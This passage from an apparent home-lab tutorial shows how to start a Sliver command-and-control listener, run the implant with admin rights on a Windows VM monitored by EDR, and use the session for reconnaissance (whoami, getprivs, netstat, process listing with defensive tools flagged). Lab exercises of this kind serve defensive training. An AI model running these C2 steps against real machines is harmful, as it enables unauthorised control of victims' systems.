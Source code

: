 ## Step 7: Start Command and Control Session
1. Now that the payload is on the Windows VM, we must switch back to the **Linux VM SSH session** and enable the **Sliver HTTP server** to catch the callback:
    1. First, **terminate the python web server** we started by pressing Ctrl + C.
    2. Now, relaunch **Sliver as root**:
    ```
    $ sliver-server
    ```
    3. Start the **Sliver HTTP listener**:
    ```
    [server] sliver > http
    ```
    4. If you get an **error starting the HTTP listener**, try rebooting the Linux VM and retrying.
2. Return to the **Windows VM** and **execute the C2 payload** from its download location using the same **administrative PowerShell prompt** we had from before:
```
PS\> C:\Users\User\Downloads\[your_C2-implant].exe
```
3. Within a few moments, you should see your **session in the Sliver server**.
4. Type **sessions** on the **Sliver shell** and take note of the **Session ID**:
```
[server] sliver > sessions
```
5. To interact with your new **C2 session** (https://github.com/BishopFox/sliver/wiki/Getting-Started#interacting-with-sessions), type the following command into the **Sliver shell**, swapping [session_id] with yours:
```
[server] sliver > use [session_id]
```
6. You are now interacting directly with the **C2 session** on the **Windows VM**. Let’s run a few **basic commands** to get our bearing on the **victim host**:
    1. Get **basic info** about the **session**:
    ```
    [server] sliver (payload_name) > info
    ```
    2. Find out what **user your implant is running as**, and learn it’s **privileges**:
    ```
    [server] sliver (payload_name) > whoami
    [server] sliver (payload_name) > getprivs
    ```
        1. If your **implant** was properly run with **Admin rights**, you’ll notice we have a few **privileges** that make further attack activity much easier, such as **SeDebugPrivilege** — if you do not see these privileges, make sure you ran the implant from an Administrative command prompt.
    3. Identify our **implant’s working directory**:
    ```
    [server] sliver (payload_name) > pwd
    ```
    4. Examine **network connections** occurring on the **remote system**:
    ```
    [server] sliver (payload_name) > netstat
    ```
        1. Notice that **Sliver cleverly highlights its own process in green**.
        2. **rphcp.exe** is the **LimaCharlie EDR service executable**.
    5. Identify **running processes** on the remote system:
    ```
    [server] sliver (payload_name) > ps -T
    ```
        1. Notice that **Sliver cleverly highlights its own process in green and any detected countermeasures (defensive tools) in red**.
